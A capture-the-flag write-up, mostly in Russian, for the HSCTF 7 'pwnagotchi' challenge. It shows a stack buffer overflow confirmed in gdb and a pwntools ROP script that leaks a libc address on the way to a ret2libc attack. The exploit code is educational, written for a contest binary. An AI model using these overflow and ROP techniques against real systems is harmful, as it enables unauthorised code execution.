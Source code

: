 # HSCTF 7

##  pwnagotchi


> Have fun with your new pwnagotchi!
>
> Connect to view your `\ (•-•) /` at `nc pwn.hsctf.com 5005`
>
> Author: meow
>
> [`pwnagotchi `](pwnagotchi)

## Анализ бинарного файла
### file pwnagotchi
```
    pwnagotchi: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, 
                interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, 
                BuildID[sha1]=f8c34ef43ba5a8fbce8b89987797d88f7adbb31f, not stripped
```
### checksec pwnagotchi
```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Итак, что мы имеем: 64-битный исполняемый ELF файл, отсутствует стековая канарейка и сегмент текста программы в памяти расположен по статическому адресу. 

##  Как работает программа
### ./pwnagotchi
```
    Enter your pwnagotchi's name: 
    admin

    \ (•-•) /
    
    admin is not happy!
```
Админ несчастлив. Программа принимаем наш ввод и печатает его. Посмотрим глубже.
### Декомпилирование с Ghidra
![](decompile_main.png)

Можно заметить, что программа уязвима к переполнению буфера, строки 6 и 18 это подтверждают. Попробуем перезаписать адрес возврата для функции main, открываем gdb.
```
    gdb-peda$ r
    Starting program: /home/white/Desktop/pwnagotchi 
    Enter your pwnagotchi's name: 
    AAAAAAAAAAAAAAAAAAAAAAAAAA

    \ (•-•) /

    AAAAAAAAAAAAAAAAAAAAAAAAAA is not happy!

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    RAX: 0x0 
    RBX: 0x0 
    RCX: 0x0 
    RDX: 0x0 
    RSI: 0x7fffffffb9a0 ('A' <repeats 26 times>, " is not happy!\n")
    RDI: 0x7ffff7fa44c0 --> 0x0 
    RBP: 0x4141414141414141 ('AAAAAAAA')            // Если мы можем перезаписать RBP и мы не ограничены в длине
    RSP: 0x7fffffffe050 --> 0x0                     // вводимой строки, мы точно можем перезаписать RIP
    RIP: 0x414141414141 ('AAAAAA')                  // Действительно, мы это сделали.    
    R8 : 0xffffffff                                 // RIP перезаписан нашим вводом: 'A' = 0x41
    R9 : 0x29 (')')
    R10: 0x7fffffffe034 ('A' <repeats 26 times>)
    R11: 0x246 
    R12: 0x400700 (<_start>:	xor    ebp,ebp)
    R13: 0x7fffffffe120 --> 0x1 
    R14: 0x0 
    R15: 0x0
    EFLAGS: 0x10206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x414141414141
    [------------------------------------stack-------------------------------------]
    0000| 0x7fffffffe050 --> 0x0 
    0008| 0x7fffffffe058 --> 0x7fffffffe128 --> 0x7fffffffe426 ("/home/white/Desktop/pwnagotchi")
    0016| 0x7fffffffe060 --> 0x100040000 
    0024| 0x7fffffffe068 --> 0x400846 (<main>:	push   rbp)
    0032| 0x7fffffffe070 --> 0x0 
    0040| 0x7fffffffe078 --> 0x6dd3503f33091595 
    0048| 0x7fffffffe080 --> 0x400700 (<_start>:	xor    ebp,ebp)
    0056| 0x7fffffffe088 --> 0x7fffffffe120 --> 0x1 
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x0000414141414141 in ?? ()
```
## Планирование Атаки
Настало время планирования. Мы можем перезаписывать RIP, но при этом у нас имеется NX бит, делающий стек неисполяемым. Предлагаю провернуть атаку re2libc, но есть проблема, которую необходимо решить перед проведением атаки: **необходимо узнать версию libc на сервере**. Для этого сделаем искусственную утечку адресов libc, а затем опеределим версию библиотеки с помощью этих адресов.

## Перчая часть:    Утечка libc
```python
    from pwn import *

    p = process("./pwnagotchi")             # To work locally
    #p = remote("pwn.hsctf.com", 5005)      # To work on the server

    pop_rdi = p64(0x00000000004009f3)       # We are looking for a gadget for payload
                                            # In radare2, this is done like this: /R pop rdi
    getegid_got = p64(0x601048)             # Getegid function address in GOT table
                                            # In gdb, this is done like this: 
                                            # x/i <getegid_call_address>
    puts = p64(0x00000000004007f2)          # Calls to the puts function in a text segment

    offset = 8 * 2 + 4                      # Offset to RIP
    payload = "A" * offset + pop_rdi + getegid_got + puts
    p.sendline(payload)                     # Payload Departure
    print p.recvuntil("s not happy!\n")     # Start reading after the given line
    leak = p.recvline().strip()             # Save read line
    leak = binascii.hexlify(leak)           # Convert string characters to hexadecimal numbers
    print ("Leak is: " + leak)              # Libc leak output
```
